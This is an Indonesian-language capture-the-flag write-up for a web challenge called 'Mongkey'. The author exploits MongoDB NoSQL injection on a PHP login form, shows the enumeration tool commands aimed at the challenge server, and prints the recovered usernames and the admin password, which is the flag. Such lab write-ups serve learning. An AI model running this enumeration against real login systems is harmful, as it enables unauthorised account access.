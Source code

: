 # Mongkey
## About The Challenge

<img width="364" alt="Cuplikan layar 2023-06-15 131041" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/655bc567-3513-4e6a-90d7-db1b6eeaf865">



Diberikan sebuah website 'http://103.167.136.89:10002/' dengan tampilan :

<img width="959" alt="Cuplikan layar 2023-06-15 131119" src="https://github.com/Gatottri/CTF-ForestyHack_WriteUP/assets/134616676/6a5119ce-eb4f-4e56-9bed-6c34f3441682">

# Solutions

Dalam challenge kita diharuskan login sebagai admin untuk mendapati flagnya
Dalam challenge juga saya mendapati petunjuk yaitu "Do you know if it is possible to post an array in PHP? I use MongoDB btw"
saya berpikir bahwa ini merupakan sejenis SQL Injection namun dalam bentu mongodb saya berpikir menggunakan tool NosQLI MongoDB injection
menggunakan tool yang saya dapatkan dari [sini](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/tree/master)
setelah mendapatkan file toolnya menggunakan git clone

saya memasukkan perintah, untuk mencari username yang terdapat didalam website :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep username -op login:login
```
saya mendapati bahwa username didalam website ini ada dua yaitu :
```shell
2 username(s) found:
admin
guest
```
![Screenshot from 2023-06-14 00-05-58](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/fa9c6d5e-1656-4975-bdcb-0ec26da559a3)

guest bukanlah username untuk medapatkan flagnya maka saya berasumsi bahwa flag terdapat pada user 'admin', mari kita cari passwordnya dengan perintah :
```shell
python3 nosqli-user-pass-enum.py -u http://103.167.136.89:10002/ -up username -pp password -ep password -op login:login
```
setelah tool selesai melakukan tugasnya maka mendapati hasil
```shell
2 password(s) found:
guest
ForestyHC{reject_humanity_return_to_monke_5543d8}
```
![Screenshot from 2023-06-14 00-06-26](https://github.com/yogasungkowo/CTF-WRITEUP/assets/93362737/b5f1edc7-4fb2-4a8e-9968-0823d5b7b5c3)

wow ternyata password untuk user admin adalah flag yang kita cari cari

## Flag
**ForestyHC{reject_humanity_return_to_monke_5543d8}**
